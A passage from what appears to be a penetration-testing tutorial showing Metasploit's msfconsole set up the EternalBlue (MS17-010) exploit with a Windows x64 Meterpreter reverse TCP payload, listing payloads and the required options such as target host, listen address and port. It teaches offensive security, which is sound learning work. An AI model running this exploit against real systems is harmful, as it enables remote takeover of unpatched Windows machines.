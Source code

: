 ```shell
   15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)


msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15

payload => windows/x64/meterpreter/reverse_tcp
```

After selecting a payload, we will have more options available to us.

  MSF - Select Payload

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

As we can see, by running the `show payloads` command within the Exploit module itself, msfconsole has detected that the target is a Windows machine, and such only displayed the payloads aimed at Windows operating systems.
